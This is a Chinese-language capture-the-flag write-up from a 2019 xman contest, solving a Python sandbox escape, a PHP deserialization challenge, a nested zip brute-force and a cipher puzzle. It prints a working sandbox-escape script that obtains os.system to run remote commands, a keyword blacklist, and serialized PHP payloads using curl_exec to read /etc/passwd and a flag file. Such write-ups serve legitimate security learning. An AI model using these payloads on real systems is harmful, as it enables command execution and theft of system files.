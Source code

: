 categories:
- 比赛
tags:
- wp
title: 2019xman个人排位赛wp
---
## escape

收获:了解了python沙箱逃逸这种类型

getattr:对沙箱逃逸有很大作用





list(s)获得字符集,可以用来绕过引号限制

试了一下system

```python
banned=  ["'", '"', '.', 'reload', 'open', 'input', 'file', 'if', 'else', 'eval', 'exit', 'import', 'quit', 'exec', 'code', 'const', 'vars', 'str', 'chr', 'ord', 'local', 'global', 'join', 'format', 'replace', 'translate', 'try', 'except', 'with', 'content', 'frame', 'back']
```

发现引号和点都被过滤了,不过提示说

```python
def hello():
   os.system("echo hello")
```



说明是可以通过调用system来完成,接下来就是想办法得到system函数了

而引号被过滤可以用字符串s里的值来绕过



```python
#考虑这样来
a=getattr(os,'system')
a("命令")
```

```python
def get_str(string):
    result=''
    for i in string:
        result+='table['+str(table.index(i))+']+'
    return result[:-1]
conn=remote('47.97.253.115',10005)
conn.sendline('table=list(s)')
conn.sendline('sys='+get_str('system'))
conn.sendline('fun=getattr(os,sys)')
while 1:
        command=input('(www):$')
        new_com='fun('+get_str(command)+')'
        conn.sendline(new_com)
        print(conn.recvuntil('>>>'))
conn.close()

```



flag{4EEAA88DA0B3207862D2E4876AF84A3D}

## strange_ssid

这题是结束听别人讲的

所有的数据都是32个字符

所以猜测是md5加密

找出符合md5格式的数据

68dffd5a1be838b5326209714f7ea7a5

解密后提交flag{n3k0}失败

直接提交flag{68dffd5a1be838b5326209714f7ea7a5}试试

成功

## **ezphp**



收获:知道了curl_exec 本地文件读取

```php
<?php

class Hello {
    protected $a;

    function test() {
        $b = strpos($this->a, 'flag');
        if($b) {
            die("Bye!");
        }
        $c = curl_init();
        curl_setopt($c, CURLOPT_URL, $this->a);
        curl_setopt($c, CURLOPT_RETURNTRANSFER, 1);
        curl_setopt($c, CURLOPT_CONNECTTIMEOUT, 5);
        echo curl_exec($c);
    }
    
    function __destruct(){
        $this->test();
    }
}

if (isset($_GET["z"])) {
    unserialize($_GET["z"]);
} else {
    highlight_file(__FILE__);
}
```



curl_exec+反序列化

试了下本地文件读取

O:5:"Hello":1:{s:1:"a";s:27:"file://localhost/etc/passwd";}

![image1967](http://ww1.sinaimg.cn/large/006pWR9agy1g5uwj7l0c4j30wp0ax407.jpg)

题目过滤flag字符

说明我们flag就在flag文件里

谷歌看了好久，后来看一道又curl_exec的题目，获得了url二次编码的思路

最后的payload:

http://47.97.253.115:10006/?z=O:5:%22Hello%22:1:{s:1:%22a%22;s:23:%22file://localhost/%2566lag%22;}

这里有一些坑就是:

1. 你不知道flag文件在哪个文件夹,结果最后就在根目录。。

2. 因为是二次编码所以要注意字符串的长度



## **onion's_secret**

下载得到一个压缩包，常规的检查走一遍

发现onion.jpg文件尾后还有数据

![image2357](http://ww1.sinaimg.cn/large/006pWR9agy1g5uwp2ulyrj30jj079dif.jpg)

zip格式,get一个新的加密压缩包

密码在hint里有提示

接下来就是很普通的写python了

```python
import zipfile
def burp(filename,hint):
    password=''
    i=0
    for i in range(32,128):
        password=hint.replace('?',chr(i))
        with zipfile.ZipFile(filename) as myzip:
            try :
                print("解密:"+filename+":"+password)
                myzip.read('onion.zip',pwd=bytes(password,encoding='ascii'))
                break
                return password
            except RuntimeError: 
                print("解密失败")
            except FileNotFoundError:
                input('过来康康')
            except zipfile.zlib.error:
                print("跳过")
    if i==127:
        print("爆破失败")
        exit()
    print('爆破成功'+password)
    return password

def writebyte(bbyte,filename):
    f=open(filename,'wb')
    f.write(bbyte)
    f.close()
def readbyte(filename):
    f=open(filename,'rb')
    bbyte=f.read()
    f.close()
    return bbyte

nullbyte=b''
while 1:
    f=open('temp.txt','r')
    hint=f.read()[12:]
    f.close()
    pwd=burp('onion1.zip',hint)
    
    with zipfile.ZipFile('onion1.zip') as myzip:
        str=myzip.read('onion.zip',pwd=bytes(pwd,encoding='ascii'))
        writebyte(str,"temp.zip")
        str=myzip.read('hint.txt',pwd=bytes(pwd,encoding='ascii'))
        writebyte(str,"temp.txt")
    writebyte(readbyte('temp.zip'),'onion1.zip')
    

```

## **commom_encrypt**

读代码就完事了

```python
def encrypt(data,groupnums):
    a=[]
    b=[]
    section=int(len(data)/groupnums)
    for i in range(0,len(data),section):
        a.append(data[i:i+section])
    for i in range(section):
        for j in range(groupnums):
            b.append(a[j][i])
    cipher=(''.join(chr(ord(b[i])^i) for i in range(len(b))))
    return cipher
def decrypt(data):
    result=[]
    for i in range(1,len(data)+1):
        result.append(encrypt(data,i))
    return result

may_r=decrypt('f^n2ekass:iy~>w|`ef"${Ip)8if')
for i in may_r:
    print(i[::2]+i[1::2])
```



